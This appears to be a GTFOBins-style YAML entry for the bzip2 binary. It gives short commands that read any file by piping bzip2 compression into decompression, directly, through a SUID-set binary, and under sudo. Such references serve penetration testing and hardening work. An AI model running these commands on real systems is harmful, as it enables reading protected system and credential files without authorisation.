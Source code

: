 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        bzip2 -c $LFILE | bzip2 -d
  suid:
    - code: |
        LFILE=file_to_read
        ./bzip2 -c $LFILE | bzip2 -d
  sudo:
    - code: |
        LFILE=file_to_read
        sudo bzip2 -c $LFILE | bzip2 -d
---
